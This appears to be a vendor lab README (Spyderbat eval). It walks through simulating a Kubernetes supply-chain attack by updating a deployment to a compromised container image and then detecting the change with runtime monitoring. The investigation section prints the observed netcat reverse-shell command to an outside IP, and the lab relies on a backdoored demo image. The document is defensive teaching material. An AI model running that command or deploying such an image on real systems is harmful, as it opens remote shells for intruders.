

# Supply-Chain Attack

This scenario demonstrates a supply chain attack where a container image is getting an update with malicious code to create a backdoor to a kubernetes cluster environment. It shows how through the use of policies for applications running on the cluster, unanticipated changes in the behavior of these application can be detected early and remediated.

## Pre-requisites
You will need
- a cluster where you can deploy services, deployments, pods, with access to docker image hub for pulling images
- a kubectl client
- a kubectl configuration with its current context pointing to the cluster

## Initial setup

If you have not yet done the inital installation steps for these attack scenarios, refer to [Spyderbat eval repository](https://github.com/spyderbat/eval)

If your setup was successful, you should see a namespace called `supply-chain` in your cluster, and some resources in it, like so:

```sh
kubectl get all -n supply-chain

NAME                            READY   STATUS    RESTARTS   AGE
pod/mongodb-66b5d7df55-b6q5j    1/1     Running   0          18h
pod/rsvp-app-587559dbf4-fnvzq   1/1     Running   0          18h
pod/rsvp-app-587559dbf4-mbxkl   1/1     Running   0          18h

NAME               TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
service/mongodb    ClusterIP   10.43.220.107   <none>        27017/TCP      25h
service/rsvp-app   NodePort    10.43.201.79    <none>        80:30135/TCP   25h

NAME                       READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/mongodb    1/1     1            1           25h
deployment.apps/rsvp-app   2/2     2            2           25h

NAME                                  DESIRED   CURRENT   READY   AGE
replicaset.apps/mongodb-66b5d7df55    1         1         1       18h
replicaset.apps/rsvp-app-587559dbf4   2         2         2       18h
```

## Inspecting the setup
We can have a look at what this looks like in the cluster, and what processes are running in the Spyderbat Console.

Log in to the console, click on the Kubernetes menu item in the navigation bar, pick your cluster in the Cluster dropdown, and click on New Search.

Now, pick the 'Workload View' to see all kubernetes artefacts, and in the facet filter on the left, select the supply-chain namespace.



We can see a deployment/replicaset/pod for the mongodb backend for the application, and a deployment/replicaset with two pods for the web-tier of the application.

Let's have a closer look at the web tier, and inspect the manifest of the pod. Click on one of the rvsp-app pods and scroll down in the lower pane to inspect the kubernetes definition, down to the spec section.


We can see the app is running an image `guyduchatelet/spyderbat-demo:1`

We can assess what is running in this image by inspecting the container that is running it. Right-click on the container and select 'investigate container'


This brings us to a process view of everything running inside of the container:


We can tell from this the entrypoint of the container spawns a python process, and another child python process to run the web
server. That is the normal state of this web server container


## Running the Exploit

For this exploit, we are going to simulate a supply chain attack on
the image of the web app we deployed. Imagine a newer version of the image gets pushed to the image repo, and that image got compromised and contains embedded code to gain access, through a backdoor.

The application developers are unaware and will push a newer version
of the image.

Let's simulate that action by updating the web deployment to use a more recent version of the image.

Find the file supply-chain.yaml under the modules directory of the eval repo, and open it up in your editor of choice.

Look for the deployment definition with name 'rsvp-app', and find the spec section. In the container properties, update the image from
`guyduchatelet/spyderbat-demo:1` to `guyduchatelet/spyderbat-demo:2`

After saving, now let's apply this change to the cluster:

```sh
kubectl apply -f supply-chain.yaml

namespace/supply-chain unchanged
deployment.apps/mongodb unchanged
service/mongodb unchanged
deployment.apps/rsvp-app configured
service/rsvp-app unchanged
```
We can see that the rsvp-app deployment is getting updated. The existing pods will be removed, and new pods will take their place.

## Investigating the Results

Give it a few minutes for these changes to take effect, and then we can go back to the Spyderbat UI to evaluate the change in behavior

Go back to the Kubernetes view in the UI, pick your cluster, update your start-time selection to 'Now', for the most recent view on your cluster, select the workload view. Then locate again the supply-chain namespace, and the rsvp-app and its containers.

Depending on your timing, you might see both the older deployment (with the previous image) and the newer deployment side to side in this view, like here:


On the left, we see the old deployment, on the right the new deployment came in. Already in this view, there is an indication things have changed - we see several redflags that have been raised on the new containers. These flags can be inspected for more detail.

Let's pivot again into the full process view inside the container. Pick a container and inspect it again as before to look at the processes running inside. Here's what we see:


Clearly the behavior of this image has changed, it's no longer just running a python web server but is running several suspicious commands. We can see it is running a netcat command
```bash
/tmp/nc 54.161.223.45 443 -e /bin/bash
```
Which seems to have succeed in creating a backdoor towards a system on the internet.

## Next Steps

Given the identification of the backdoor, the most prudent course of action is to work with the application developer to roll back to the older version of the app, and further investigate other suspicious activity on the kubernetes nodes.

Spyderbat also can provide a very strong defense against this type of attack by leveraging a Guardian policy for a container image, that will specify explicitly what is the expected behavior of the image, and automatically alert on, or even kill pods where the behavior differs.

We will explore this in the "Image Policies — Supply-Chain Attack" scenario.

